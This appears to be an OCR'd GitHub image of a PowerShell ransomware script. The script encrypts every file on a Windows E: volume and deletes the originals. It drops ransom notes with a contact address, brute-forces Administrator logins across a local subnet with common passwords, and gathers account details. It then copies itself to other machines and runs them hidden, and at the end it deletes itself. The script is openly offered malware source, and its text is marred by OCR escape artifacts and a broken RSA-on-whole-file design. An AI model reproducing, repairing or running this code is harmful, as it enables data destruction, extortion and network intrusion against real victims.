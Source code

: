## this ransomware has not yrt been tried it will spread like a virus onces executed on one pc affecting all others on the same network

# Windows Volume E Ransomware (Aggressive Worm Edition with Credential Dumping)

# Encrypts all files on the E: volume and spreads to other machines like a real virus

param (
\[string]\$Volume = "E:"
)

# Generate RSA Key Pair if not exists

\$PrivateKeyPath = "\$env\:TEMP\private\_key.pem"
\$PublicKeyPath = "\$env\:TEMP\public\_key.pem"
if (!(Test-Path \$PrivateKeyPath -PathType Leaf) -or !(Test-Path \$PublicKeyPath -PathType Leaf)) {
Write-Host "Generating RSA key pair..."
\$Key = \[System.Security.Cryptography.RSACng]::new(2048)

```
# Export Private Key to PEM
$PrivateKey = $Key.ExportRSAPrivateKey()
$PrivateKeyPem = "-----BEGIN PRIVATE KEY-----`n"
$PrivateKeyPem += [Convert]::ToBase64String($PrivateKey) -replace ".{64}","$&`n"
$PrivateKeyPem += "`n-----END PRIVATE KEY-----"
[System.IO.File]::WriteAllText($PrivateKeyPath, $PrivateKeyPem)

# Export Public Key to PEM
$PublicKey = $Key.ExportRSAPublicKey()
$PublicKeyPem = "-----BEGIN PUBLIC KEY-----`n"
$PublicKeyPem += [Convert]::ToBase64String($PublicKey) -replace ".{64}","$&`n"
$PublicKeyPem += "`n-----END PUBLIC KEY-----"
[System.IO.File]::WriteAllText($PublicKeyPath, $PublicKeyPem)
Write-Host "RSA key pair generated."
```

} else {
Write-Host "RSA key pair already exists."
}

# Load Public Key for Encryption

\$PublicKey = \[System.Security.Cryptography.RSACng]::new()
\$PublicKeyPem = Get-Content \$PublicKeyPath -Raw
\$PublicKeyPem = \$PublicKeyPem -replace "-----BEGIN PUBLIC KEY-----`n", ""
$PublicKeyPem = $PublicKeyPem -replace "`n-----END PUBLIC KEY-----", ""
\$PublicKeyBytes = \[Convert]::FromBase64String(\$PublicKeyPem)
\$PublicKey.ImportRSAPublicKey(\$PublicKeyBytes, \[ref]0)

function Encrypt-File {
param (
\[string]\$FilePath
)
try {
\# Read file bytes
\$FileBytes = \[System.IO.File]::ReadAllBytes(\$FilePath)

```
    # Encrypt data with RSA public key
    $EncryptedBytes = $PublicKey.Encrypt($FileBytes, $true)

    # Write encrypted file
    [System.IO.File]::WriteAllBytes($FilePath + ".enc", $EncryptedBytes)
    Remove-Item $FilePath -Force
    Write-Host "Encrypted: $FilePath"
} catch {
    Write-Host "Failed to encrypt: $FilePath ($_)."
}
```

}

# Encrypt All Files

Get-ChildItem -Path \$Volume -Recurse -File | ForEach-Object {
Encrypt-File $\_.FullName
}

Write-Host "Volume E: Encryption Complete!"

# Drop Ransom Note

\$RansomNote = @"
YOUR FILES HAVE BEEN ENCRYPTED!

To recover your files, you must pay the ransom.
Contact us at [hacker@darkmail.com](mailto:hacker@darkmail.com) with your unique ID: \$(New-Guid)
"@
Get-ChildItem -Path \$Volume -Recurse -Directory | ForEach-Object {
\$NotePath = Join-Path $\_.FullName "README.txt"
Set-Content -Path \$NotePath -Value \$RansomNote
Write-Host "Ransom note dropped in: \$NotePath"
}

# Worm Propagation (Basic Network Spread with Credential Dumping)

\$Subnet = "192.168.1"
\$CommonPasswords = @("password", "admin", "123456", "admin123", "password1", "1234")
foreach (\$IP in 1..254) {
\$TargetIP = "\$Subnet.\$IP"
foreach (\$Password in \$CommonPasswords) {
try {
\# Attempt to authenticate with common passwords
net use \\\$TargetIP\C\$ /user\:Administrator \$Password /persistent\:no
\# Dump credentials
\$CredDump = (Invoke-Command -ComputerName \$TargetIP -ScriptBlock { cmd.exe /c "whoami /all" })
Add-Content -Path "\$env\:TEMP\credentials\_dump.txt" -Value "Credentials from \$TargetIP:`n$CredDump`n"
Write-Host "Dumped credentials from: \$TargetIP"
\# Spread worm
\$TargetPath = "\\\$TargetIP\C\$\Users\Public\network\_worm.ps1"
Copy-Item -Path \$PSCommandPath -Destination \$TargetPath -Force
Invoke-Command -ComputerName \$TargetIP -ScriptBlock { Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Users\Public\network\_worm.ps1" -WindowStyle Hidden }
Write-Host "Spread to: \$TargetIP"
} catch {
Write-Host "Failed to spread to: \$TargetIP ($\_)."
}
}
}

# Self-Destruct

Remove-Item \$PSCommandPath -Force
Write-Host "Ransomware script has self-destructed."

